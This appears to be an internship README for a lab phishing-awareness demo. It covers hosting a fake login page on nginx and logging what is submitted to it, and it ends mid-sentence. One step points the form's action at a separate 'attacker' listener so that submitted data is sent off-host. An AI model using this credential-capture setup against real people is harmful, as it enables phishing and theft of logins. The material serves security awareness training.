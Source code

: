 # code_alpha_internship_task2_phishing_awareness

TASK 2 — Phishing Awareness (Lab Demo)

**Intern:** Muhammad Faisal  
**Date:** 2025-09-30  

---

## Purpose
This folder contains a safe, educational phishing demonstration page and artifacts for the CodeAlpha internship. The page is intentionally simple and designed for lab-controlled testing only — **do not** use real production credentials or deploy this on public systems.

The demo teaches:
- How phishing pages often look and behave
- Quick manual checks (hover links, inspect form actions)
- How to unshorten links and inspect TLS certificates
- Capturing and redacting any submitted test data (lab only)

---

## Files included
- `phishing_demo.html` — static demo page (lab demo).  
- `artifacts/` — (empty by default) place for captured/redacted logs and outputs.  
- `screenshots/` — placeholder for screenshots (phishing_page.png, phishing_hover.png, etc.).  
- `videos/phishing_demo.mp4` — demo recording (optional).  
- `Phishing_Awareness_Expanded_Muhammad_Faisal.pptx` — presentation used for awareness/demo.  
- `TASK2_STATUS.md` — task status and commands run.

---

## How to host the demo (on the **target** machine)
> Run on the lab **target** instance (13.60.156.138) only.

1. Install nginx (if not already):
```bash
##sudo apt update && sudo apt -y install nginx

2. Copy phishing_demo.html to the web root:



sudo cp phishing_demo.html /var/www/html/phishing_demo.html
sudo systemctl restart nginx
# verify:
curl -I http://localhost/phishing_demo.html

3. Open in your browser (from your laptop):



http://13.60.156.138/phishing_demo.html


---

How to capture submitted data (lab-only; two options)

Option A — Capture on the target

Run a simple HTTP logger on the target that listens on port 9000 and logs POST bodies (Python script provided in task instructions). Example (server on target):

# Start a basic logger (example)
sudo nohup python3 ~/codealpha/TASKS/logging_server.py >/home/ubuntu/codealpha/TASKS/logging_server.log 2>&1 &
# Submit the form from the browser (use dummy data)
# Then inspect:
tail -n 80 /home/ubuntu/codealpha/TASKS/artifacts/phish_submissions_raw.txt

Option B — Capture on the attacker (attacker sees submissions)

Change the form action in phishing_demo.html to the attacker's listener:

<form method="post" action="http://13.6.208.177:9000/log">

Start the logger on the attacker (same approach) and watch the log there.

> Security note: If you change the action to an IP:port, ensure Security Group inbound is limited to lab IPs only (restrict to your tester IPs) and revert after the de

